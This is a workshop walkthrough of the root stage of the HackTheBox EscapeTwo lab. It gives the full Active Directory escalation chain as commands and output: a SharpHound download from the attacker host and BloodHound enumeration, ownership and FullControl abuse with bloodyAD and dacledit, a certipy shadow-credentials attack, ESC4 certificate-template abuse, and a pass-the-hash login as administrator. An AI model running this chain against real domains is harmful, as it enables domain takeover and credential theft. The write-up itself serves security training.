

# Workshop

**HackTheBox - EscapeTwo (Root)**

(Follow same steps from last week to connect to the HTB machine)

open a terminal on your desktop and enter the following command to connect to user ‘ryan’:

```prolog
evil-winrm -i 10.10.11.51 -u "ryan" -p "WqSZAF6CysDQbGb3"
```

Use Invoke-WebRequest to upload the SharpHound executable to the PowerShell reverse shell

```jsx
*Evil-WinRM* PS C:\Users\ryan\Documents> Invoke-WebRequest http://10.10.14.106/SharpHound.exe -OutFile Sharphound.exe
*Evil-WinRM* PS C:\Users\ryan\Documents> ls

    Directory: C:\Users\ryan\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/26/2024  12:19 AM       14132446 bloodyAD.exe
-a----         2/5/2025   3:27 AM        1046528 Sharphound.exe
```

Execute SharpHound.exe on the rev shell

```jsx
*Evil-WinRM* PS C:\Users\ryan\Documents> .\SharpHound.exe
2025-02-05T03:28:15.9370594-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-02-05T03:28:16.0308503-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-02-05T03:28:16.0464500-08:00|INFORMATION|Initializing SharpHound at 3:28 AM on 2/5/2025
2025-02-05T03:28:16.1401828-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for sequel.htb : DC01.sequel.htb
2025-02-05T03:28:16.2651798-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-02-05T03:28:16.3745536-08:00|INFORMATION|Beginning LDAP search for sequel.htb
2025-02-05T03:28:16.4058123-08:00|INFORMATION|Producer has finished, closing LDAP channel
2025-02-05T03:28:16.4058123-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-02-05T03:28:46.6090150-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2025-02-05T03:29:01.2339247-08:00|INFORMATION|Consumers finished, closing output channel
2025-02-05T03:29:01.2495541-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2025-02-05T03:29:01.4685932-08:00|INFORMATION|Status: 103 objects finished (+103 2.288889)/s -- Using 42 MB RAM
2025-02-05T03:29:01.4685932-08:00|INFORMATION|Enumeration finished in 00:00:45.1023455
2025-02-05T03:29:01.5308051-08:00|INFORMATION|Saving cache with stats: 62 ID to type mappings.
 62 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-02-05T03:29:01.5464299-08:00|INFORMATION|SharpHound Enumeration Completed at 3:29 AM on 2/5/2025! Happy Graphing!
*Evil-WinRM* PS C:\Users\ryan\Documents> ls

    Directory: C:\Users\ryan\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/5/2025   3:29 AM          12231 20250205032901_BloodHound.zip
-a----       12/26/2024  12:19 AM       14132446 bloodyAD.exe
-a----         2/5/2025   3:29 AM           9210 NGZlZGJhNTUtZGMxZi00MzRhLTkxYzUtZWNjYjM1NGU4YzNl.bin
-a----         2/5/2025   3:27 AM        1046528 Sharphound.exe

```

this produces the file we need for Bloodhound

start neo4j console from terminal

```prolog
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo neo4j console
[sudo] password for kali: 
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2025-02-05 11:40:39.033+0000 INFO  Starting...
2025-02-05 11:40:39.403+0000 INFO  This instance is ServerId{a984b410} (a984b410-fe06-4ec3-94a7-9bf6fdef00df)
2025-02-05 11:40:40.380+0000 INFO  ======== Neo4j 4.4.26 ========
2025-02-05 11:40:41.991+0000 INFO  Initializing system graph model for component 'security-users' with version -1 and status UNINITIALIZED
2025-02-05 11:40:41.997+0000 INFO  Setting up initial user from defaults: neo4j
2025-02-05 11:40:41.997+0000 INFO  Creating new user 'neo4j' (passwordChangeRequired=true, suspended=false)
2025-02-05 11:40:42.004+0000 INFO  Setting version for 'security-users' to 3
2025-02-05 11:40:42.006+0000 INFO  After initialization of system graph model component 'security-users' have version 3 and status CURRENT
2025-02-05 11:40:42.008+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2025-02-05 11:40:42.266+0000 INFO  Bolt enabled on localhost:7687.
2025-02-05 11:40:42.988+0000 INFO  Remote interface available at http://localhost:7474/
2025-02-05 11:40:42.990+0000 INFO  id: 45F5F9746600EE5C32167B67979FC8E36C363EE710AC201D2A8120AAAC9081E4
2025-02-05 11:40:42.990+0000 INFO  name: system
2025-02-05 11:40:42.991+0000 INFO  creationDate: 2025-02-05T11:40:41.148Z
2025-02-05 11:40:42.991+0000 INFO  Started.
2025-02-05 11:44:38.073+0000 WARN  The client is unauthorized due to authentication failure.
                                                                                                   
```

this gives you a [localhost](http://localhost) address to connect to, in this case it is:

```jsx
http://localhost:7474/
```

Go to this address in your browser and it brings up a login screen

default creds:

```prolog
neo4j : neo4j
```



press ‘Connect’

this will prompt you to create a new password (pick a simple one you will remember because you’ll need it again)

start bloodhound application from terminal

```jsx
┌──(kali㉿kali)-[~/Desktop]
└─$ bloodhound 
(node:17417) electron: The default of contextIsolation is deprecated and will be changing from false to true in a future release of Electron.  See https://github.com/electron/electron/issues/23506 for more information
(node:17471) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.

```

brings up login screen, login using neo4j creds from before

there is an ‘Upload Data’ button in the top right of the console


select the zip file you generated from the SharpHound application


once the files have uploaded, there’s a menu in the top left corner of the console

we can use 


Find RYAN@SEQUEL.HTB account

Look at Node Info

Click on ‘First Degree Object Control’

See user ‘ryan’ has WriteOwner perms for ‘ca_svc’ account


Now that we know this, we can use BloodyAD to change the owner of the ca_svc object to user ‘ryan’

[https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

(cd to ~/.local/bin)

```jsx
./bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
```

output should look like this:

```jsx
┌──(kali㉿kali)-[~/.local/bin]
└─$ ./bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc     
```

set ‘FullControl’ perms for ryan (allows object control by user: modify + deletion)

```prolog
./dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
```

use certipy to abuse shadow account, connect to domain controller using ip

```prolog
certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc
```

The output of this generates a NT hash for user ‘ca_svc’ which we need for later authentication:

```prolog
┌──(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '279b367f-d8fe-62c9-de48-721c2c93fb54'
[*] Adding Key Credential with device ID '279b367f-d8fe-62c9-de48-721c2c93fb54' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '279b367f-d8fe-62c9-de48-721c2c93fb54' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

hash:

```prolog
3b181b914e7a9d5508ea1e20bc2b7fce
```

search for vulns in target using kerberos authentication

```prolog
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout
```

output should look like this:

```prolog
┌──(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Domain retrieved from CCache: SEQUEL.HTB
[+] Username retrieved from CCache: ca_svc
[+] Trying to resolve 'dc01.sequel.htb' at '10.10.11.51'
[+] Authenticating to LDAP server
[+] Using Kerberos Cache: /home/kali/Desktop/impacket/examples/ca_svc.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: ca_svc
[+] Getting TGS for 'host/dc01.sequel.htb'
[+] Got TGS for 'host/dc01.sequel.htb'
[+] Bound to ldap://10.10.11.51:389 - cleartext
[+] Default path: DC=sequel,DC=htb
[+] Configuration path: CN=Configuration,DC=sequel,DC=htb
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     SEQUEL.HTB\Everyone (SEQUEL.HTB-S-1-1-0)
     SEQUEL.HTB\Domain Computers (S-1-5-21-548670397-972687484-3496335370-515)
     SEQUEL.HTB\Cert Publishers (S-1-5-21-548670397-972687484-3496335370-517)
     SEQUEL.HTB\Authenticated Users (SEQUEL.HTB-S-1-5-11)
     SEQUEL.HTB\Domain Users (S-1-5-21-548670397-972687484-3496335370-513)
     SEQUEL.HTB\Denied RODC Password Replication Group (S-1-5-21-548670397-972687484-3496335370-572)
     SEQUEL.HTB\Users (SEQUEL.HTB-S-1-5-32-545)
     SEQUEL.HTB\Certification Authority (S-1-5-21-548670397-972687484-3496335370-1607)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'DC01.sequel.htb' at '10.10.11.51'
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.11.51
[+] Using Kerberos Cache: /home/kali/Desktop/impacket/examples/ca_svc.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: ca_svc
[+] Getting TGS for 'host/DC01.sequel.htb'
[+] Got TGS for 'host/DC01.sequel.htb'
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[+] Using Kerberos Cache: /home/kali/Desktop/impacket/examples/ca_svc.ccache
[+] Using TGT from cache
[+] Username retrieved from CCache: ca_svc
[+] Getting TGS for 'host/DC01.sequel.htb'
[+] Got TGS for 'host/DC01.sequel.htb'
[+] Connected to remote registry at 'DC01.sequel.htb' (10.10.11.51)
[*] Got CA configuration for 'sequel-DC01-CA'
[+] Resolved 'DC01.sequel.htb' from cache: 10.10.11.51
[+] Connecting to 10.10.11.51:80
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
           
```

this finds a vulnerable template:

```prolog
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
```

create certificate request using DunderMifflinAuthentication template (shown in results from pervious command)

```prolog
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51
```

create certificate request using hash + template

```prolog
certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
```

output should look like this:

```prolog
┌──(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 13
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

authenticate user using pfx file retrieved from result of previous command

```prolog
certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51
```

output:

```prolog
┌──(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff

```

gets hash for administrator that can be used for evil-winrm authentication:

```prolog
7a8d4e04986afa8ed4060f75e5a0b3ff
```

evil-winrm into the domain controller using administrator account and hash:

```prolog
┌──(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ evil-winrm -i dc01.sequel.htb -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                               
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir

    Directory: C:\Users\Administrator\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/8/2024   3:40 PM                SQL Server Management Studio

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> ls

    Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         1/4/2025   7:58 AM                3D Objects
d-r---         1/4/2025   7:58 AM                Contacts
d-r---         1/4/2025   7:58 AM                Desktop
d-r---         1/4/2025   7:58 AM                Documents
d-r---         1/4/2025   8:31 AM                Downloads
d-r---         1/4/2025   7:58 AM                Favorites
d-r---         1/4/2025   7:58 AM                Links
d-r---         1/4/2025   7:58 AM                Music
d-r---         1/4/2025   7:58 AM                Pictures
d-r---         1/4/2025   7:58 AM                Saved Games
d-r---         1/4/2025   7:58 AM                Searches
d-r---         1/4/2025   7:58 AM                Videos

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/18/2025   8:42 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
<root flag>
```

(root flag can be found in Administrator account’s Desktop)